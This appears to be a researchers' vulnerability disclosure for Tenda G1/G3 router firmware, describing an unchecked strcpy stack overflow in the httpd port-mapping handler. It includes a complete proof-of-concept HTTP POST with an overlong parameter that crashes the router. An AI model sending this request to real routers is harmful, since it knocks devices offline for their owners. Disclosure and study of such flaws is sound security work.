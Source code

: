 # Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Stack Overflow

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In `formSetPortMapping` function, `portMappingServer、portMappingProtocol、portMappingWan、porMappingtInternal、portMappingExternal` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `portMappingServer、portMappingProtocol、portMappingWan、porMappingtInternal、portMappingExternal` to crash the server.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, the input has not been checked. The parameter `portMappingServer、portMappingProtocol、portMappingWan、porMappingtInternal、portMappingExternal` is directly strcpy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 



## PoC

We set `portMappingServer` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....** , and the router will crash, such as:

```http
POST /goform/setPortMapping HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 632
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/virtualServer/portMapping.html?0.753949240419448
Cookie: _:USERNAME:_=; G3v3_user=

portMappingIndex=0&portMappingServer=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&innerPortUpstream=7777&innerPortDownstream=9999&outerPortUpstream=7777&outerPortDownstream=9999&portMappingProtocol=0&portMappingWan=0&porMappingtInternal=7777-9999&portMappingExternal=7777-9999
```



## Result

The target router crashes and cannot provide services correctly and persistently.



